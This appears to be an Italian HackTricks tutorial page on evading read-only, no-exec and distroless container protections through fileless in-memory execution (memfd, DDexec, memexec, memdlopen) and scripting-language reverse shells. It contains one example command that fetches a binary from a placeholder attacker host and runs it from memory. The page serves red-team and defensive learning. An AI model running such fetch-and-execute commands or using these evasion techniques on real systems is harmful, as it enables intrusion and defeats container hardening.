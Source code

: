 # Bypass delle protezioni del file system: sola lettura / no-exec / Distroless

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato alla **carriera nell'hacking** e vuoi hackerare l'inviolabile - **stiamo assumendo!** (_richiesta competenza polacca scritta e parlata_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Nei seguenti video puoi trovare le tecniche menzionate in questa pagina spiegate più approfonditamente:

* [**DEF CON 31 - Esplorazione della manipolazione della memoria Linux per furtività ed evasione**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusioni furtive con DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scenario di sola lettura / no-exec

È sempre più comune trovare macchine Linux montate con **protezione del file system in sola lettura (ro)**, specialmente nei container. Questo perché eseguire un container con file system in sola lettura è semplice come impostare **`readOnlyRootFilesystem: true`** nel `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tuttavia, anche se il file system è montato come ro, **`/dev/shm`** sarà comunque scrivibile, quindi è falso che non possiamo scrivere nulla sul disco. Tuttavia, questa cartella sarà **montata con protezione no-exec**, quindi se scarichi un binario qui **non potrai eseguirlo**.

{% hint style="warning" %}
Dal punto di vista di un red team, questo rende **complicato scaricare ed eseguire** binari che non sono già nel sistema (come backdoor o enumerator come `kubectl`).
{% endhint %}

## Bypass più semplice: Script

Nota che ho menzionato binari, puoi **eseguire qualsiasi script** purché l'interprete sia presente nella macchina, come uno **script shell** se è presente `sh` o uno **script python** se è installato `python`.

Tuttavia, questo non è sufficiente per eseguire la tua backdoor binaria o altri strumenti binari che potresti aver bisogno di eseguire.

## Bypass di memoria

Se vuoi eseguire un binario ma il file system non lo permette, il modo migliore per farlo è **eseguirlo dalla memoria**, poiché le **protezioni non si applicano lì**.

### Bypass syscall FD + exec

Se hai potenti motori di script all'interno della macchina, come **Python**, **Perl** o **Ruby**, potresti scaricare il binario da eseguire dalla memoria, memorizzarlo in un descrittore di file di memoria (`create_memfd` syscall), che non sarà protetto da tali protezioni e quindi chiamare una **syscall `exec`** indicando il **fd come file da eseguire**.

Per fare ciò puoi facilmente utilizzare il progetto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Puoi passargli un binario e genererà uno script nella lingua indicata con il **binario compresso e codificato in b64** con le istruzioni per **decodificarlo e decomprimerlo** in un **fd** creato chiamando la syscall `create_memfd` e una chiamata alla syscall **exec** per eseguirlo.

{% hint style="warning" %}
Questo non funziona in altri linguaggi di scripting come PHP o Node perché non hanno un **modo predefinito per chiamare le syscall grezze** da uno script, quindi non è possibile chiamare `create_memfd` per creare il **fd di memoria** per memorizzare il binario.

Inoltre, creare un **fd regolare** con un file in `/dev/shm` non funzionerà, poiché non ti sarà consentito eseguirlo a causa della **protezione no-exec** che si applicherà.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) è una tecnica che ti consente di **modificare la memoria del tuo stesso processo** sovrascrivendo il suo **`/proc/self/mem`**.

Pertanto, **controllando il codice assembly** che viene eseguito dal processo, puoi scrivere uno **shellcode** e "mutare" il processo per **eseguire qualsiasi codice arbitrario**.

{% hint style="success" %}
**DDexec / EverythingExec** ti permetterà di caricare ed **eseguire** il tuo **proprio shellcode** o **qualsiasi binario** dalla **memoria**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Per ulteriori informazioni su questa tecnica, controlla su Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) è il passo successivo naturale di DDexec. Si tratta di un **shellcode demonizzato di DDexec**, quindi ogni volta che si desidera **eseguire un binario diverso** non è necessario riavviare DDexec, è sufficiente eseguire il codice shell di memexec tramite la tecnica DDexec e quindi **comunicare con questo demone per passare nuovi binari da caricare ed eseguire**.

Puoi trovare un esempio su come utilizzare **memexec per eseguire binari da un reverse shell PHP** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con uno scopo simile a DDexec, la tecnica [**memdlopen**](https://github.com/arget13/memdlopen) consente un **modo più semplice di caricare binari** in memoria per eseguirli successivamente. Potrebbe persino consentire di caricare binari con dipendenze.

## Bypass Distroless

### Cos'è Distroless

I container Distroless contengono solo i **componenti minimi necessari per eseguire un'applicazione o un servizio specifico**, come librerie e dipendenze di runtime, ma escludono componenti più grandi come un gestore di pacchetti, shell o utility di sistema.

L'obiettivo dei container Distroless è **ridurre la superficie di attacco dei container eliminando componenti non necessari** e riducendo al minimo il numero di vulnerabilità che possono essere sfruttate.

### Reverse Shell

In un container Distroless potresti **non trovare nemmeno `sh` o `bash`** per ottenere una shell regolare. Non troverai nemmeno binari come `ls`, `whoami`, `id`... tutto ciò che di solito esegui in un sistema.

{% hint style="warning" %}
Pertanto, **non** sarai in grado di ottenere una **shell inversa** o **enumerare** il sistema come fai di solito.
{% endhint %}

Tuttavia, se il container compromesso sta eseguendo ad esempio un'applicazione web Flask, allora Python è installato e quindi puoi ottenere una **shell inversa Python**. Se sta eseguendo Node, puoi ottenere una shell inversa di Node, e lo stesso con la maggior parte dei **linguaggi di scripting**.

{% hint style="success" %}
Utilizzando il linguaggio di scripting potresti **enumerare il sistema** sfruttando le capacità del linguaggio.
{% endhint %}

Se non ci sono **protezioni `read-only/no-exec`** potresti abusare della tua shell inversa per **scrivere nel file system i tuoi binari** ed **eseguirli**.

{% hint style="success" %}
Tuttavia, in questo tipo di container queste protezioni di solito esistono, ma potresti utilizzare le **tecniche di esecuzione in memoria precedenti per aggirarle**.
{% endhint %}

Puoi trovare **esempi** su come **sfruttare alcune vulnerabilità RCE** per ottenere **shell inverse di linguaggi di scripting** ed eseguire binari dalla memoria in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nell'hacking** e vuoi hackerare l'inviolabile - **stiamo assumendo!** (_richiesta competenza in polacco scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
